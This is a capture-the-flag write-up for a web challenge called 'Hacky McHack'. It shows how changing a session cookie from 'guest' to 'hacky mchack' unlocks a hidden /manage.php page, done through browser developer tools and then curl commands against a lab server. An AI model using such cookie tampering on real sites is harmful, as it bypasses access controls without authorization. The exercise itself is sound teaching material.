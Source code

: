 ## Virgin: From the Browser

We visit to the URL, open the Developer Tools and go over to the "Storage" tab.
There we see the server has given ass the cookie `u=guest`.

![Hacky McHack - Initial Cookie](../../media/hacky-mchack-cookies.png)

Since the challenge is called "Hacky McHack" we set the cookie value to `hacky mchack`.
We notice a new tab has appeared at the top of the page or by inspecting the HTML source: **Manage** (`/manage.php`).
We click on it and get the flag.

```
<ul class="nav-menu list-unstyled">
    <li><a href="index.php" class="smoothScroll">Home</a></li>
    <li><a href="#about" class="smoothScroll">About</a></li>
    <li><a href="#portfolio" class="smoothScroll">Portfolio</a></li>
    <li><a href="#journal" class="smoothScroll">Blog</a></li>
    <li><a href="#contact" class="smoothScroll">Contact</a></li>
        <li><a href="manage.php" class="smoothScroll">Manage</a></li>
    </ul>
```

## Chad v1: From the CLI

We use our good friend `curl`.
First, we save the cookies from the initial page into a cookie jar.
```
root@kali:~# curl -c cookies.txt http://141.85.224.70:8010
[...]

root@kali:~# cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

http://141.85.224.70:8010	FALSE	/	FALSE	1656864260	u	guest
```

Now we edit the file and replace `guest` with `hacky mchack` and send a `GET` request to `/manage.php`.
```
root@kali:~# sed -i s/guest/hacky\ mchack/ cookies.txt

root@kali:~# curl -b cookies.txt http://141.85.224.70:8010/manage.php
```

If we didn't want to use the cookie jar, we could have simply looked at the headers sent by the server then sent the cookie "manually":
```
root@kali:~# curl -v http://141.85.224.70:8010 > /dev/null  # we don't care about the output
[...]
< HTTP/1.1 200 OK
< Date: Sun, 03 Jul 2022 16:10:51 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.34
< Set-Cookie: u=guest; expires=Sun, 03-Jul-2022 16:11:51 GMT; Max-Age=60

root@kali:~# curl -b 'u=hacky mchack' $URL/manage.php  # Notice the Set-Cookie field above
<here we get the flag>
```

## Chad v2: From Python

Simply create a `Session` object, set the cookie `u` to `hacky mchack`, then send a `GET` request to the `/manage.php` endpoint.
